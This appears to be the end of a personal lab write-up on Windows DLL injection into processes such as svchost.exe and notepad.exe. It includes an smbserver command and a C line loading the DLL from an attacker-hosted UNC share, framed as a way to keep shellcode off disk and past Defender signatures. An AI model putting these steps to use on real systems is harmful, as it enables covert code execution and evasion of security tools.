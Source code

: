 ```c
	return EXIT_SUCCESS;

}
```

The cmd.exe is still there.

omg its cause we are running a program with cmd.exe as in:
```shell
cmd.exe /c <exe name>
```

lmao anyways that how you can find and inject into a process using powershell commands.

## Summary
So when running the program the only thing (that i could find) was a cmd.exe process in taskmanager. If you PID is provided it will instead find the pid of svchost.exe and inject into that. This is fine as it is running in the context of your user. When doing this defender could not care less. When injecting into something like notepad.exe defender will alert the user but not kill the shell which is weird.

You can CTRL+C the shell or kill notepad.exe and the shell will still work. (I think this is because the shell was staged but not 100% sure.) Something to try later on would be to find a way to host the DLL. Wonder if a UNC path would work?

## Hosting DLL
on kali host a http server, nc listener and smb server.

smbserver
```bash
smbserver.py share . -ts -debug -smb2support
```

Then change the dllpath to be:
```c
wchar_t dllPath[MAX_PATH] = L"\\\\192.168.153.128\\share\\mydll2.dll";
```

It does work!!

This means that we could now hardcode the shellcode in the dll as we dont need to worry about signatures as the file wont be dropped to disk. 

Also I did end up doing a SMB stager :)


FIN